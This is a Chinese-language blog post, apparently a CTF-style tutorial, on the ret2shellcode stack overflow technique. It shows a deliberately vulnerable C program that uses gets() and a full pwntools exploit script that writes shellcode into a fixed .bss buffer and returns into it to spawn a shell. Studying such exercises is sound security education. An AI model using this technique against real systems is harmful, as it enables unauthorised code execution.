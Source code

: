 ```yaml
---
layout:     post
title:      ret2shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2shellcode)



第八行，gets函数存在溢出，ret2shellcode程序没有system，不能直接像ret2text一样利用程序中已有的system('/bin/sh')代码

![image-20180911162609611](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-084850.png)



但是相比ret2text多了一个strncpy函数，这个函数的作用是把s中的内容拷贝到buf2中

第一个参数为buf2为目的地址，&s为源地址，0x64u为buf2长度

```c
char *strncpy(char *dest, const char *src, size_t n);

strncpy(buf2, &s, 0x64u);
```

所以这里就出现了一个思路，自己构造shellcode，通过strncpy拷贝到buf2中，然后main函数的返回地址覆盖为buf2的地址

```python
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh()) #pwntools自带的模块

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))
#shellcode.ljust(112, 'a'）左填充
```



> buf2属于全局未初始化变量，在程序编译运行时候，在bss段中，地址固定不变
>
> buf属于局部未初始化变量，每一次程序加载运行在内存中的地址都是变化的

```c
ret2shellcode.c

#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```



exp：

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2shellcode')

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))

sh.interactive()
```



